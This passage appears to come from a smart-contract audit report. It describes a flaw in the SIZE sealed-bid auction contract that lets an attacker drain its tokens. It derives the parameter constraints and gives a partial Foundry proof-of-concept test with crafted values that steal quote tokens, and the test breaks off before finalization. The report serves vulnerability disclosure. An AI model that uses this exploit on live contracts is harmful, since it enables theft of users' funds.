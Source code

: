While in finalize():

```
// Only fill if above reserve price
if (quotePerBase < data.reserveQuotePerBase) continue;
```

And an important constraint on quoteAmount and minimumBidQuote:

```
if (quoteAmount == 0 || quoteAmount == type(uint128).max || quoteAmount < a.params.minimumBidQuote) {
    revert InvalidBidAmount();
}
```

Merging them gives us two equations to substitute variables in:

1.  `minimumBidQuote / totalBaseAmount < reserveQuotePerBase <= UINT128_MAX / clearingBase`
2.  `quoteAmount > minimumBidQuote`

In the POC I've crafted parameters to steal 2**30 quote tokens, around 1000 in USDC denomination. With the above equations, increasing or decreasing the stolen amount is simple.

## Impact

An attacker can steal all tokens held in the SIZE auction contract.

## Proof of Concept

Copy the following code in SizeSealed.t.sol

```
function testAttack() public {
    quoteToken = new MockERC20("USD Coin", "USDC", 6);
    baseToken = new MockERC20("DAI stablecoin ", "DAI", 18);
    // Bootstrap auction contract with some funds
    baseToken.mint(address(auction), 1e20);
    quoteToken.mint(address(auction), 1e12);
    // Create attacker
    MockSeller attacker_seller  = new MockSeller(address(auction), quoteToken, baseToken);
    MockBuyer attacker_buyer = new MockBuyer(address(auction), quoteToken, baseToken);
    // Print attacker balances
    uint256 balance_quote;
    uint256 balance_base;
    (balance_quote, balance_base) = attacker_seller.balances();
    console.log("Starting seller balance: ", balance_quote, balance_base);
    (balance_quote, balance_base) = attacker_buyer.balances();
    console.log('Starting buyer balance: ', balance_quote, balance_base);
    // Create auction
    uint256 auction_id = attacker_seller.createAuction(
        2**32,  // totalBaseAmount
        2**120, // reserveQuotePerBase
        2**20, // minimumBidQuote
        uint32(block.timestamp), // startTimestamp
        uint32(block.timestamp + 1),  // endTimestamp
        uint32(block.timestamp + 1), // vestingStartTimestamp
        uint32(block.timestamp + 1), // vestingEndTimestamp
        0 // cliffPercent
    );
    // Bid on auction
    attacker_buyer.setAuctionId(auction_id);
    attacker_buyer.bidOnAuction(
        2**30, // baseAmount
        2**30  // quoteAmount
    );
    // Finalize with clearingQuote = clearingBase = 2**128-1
```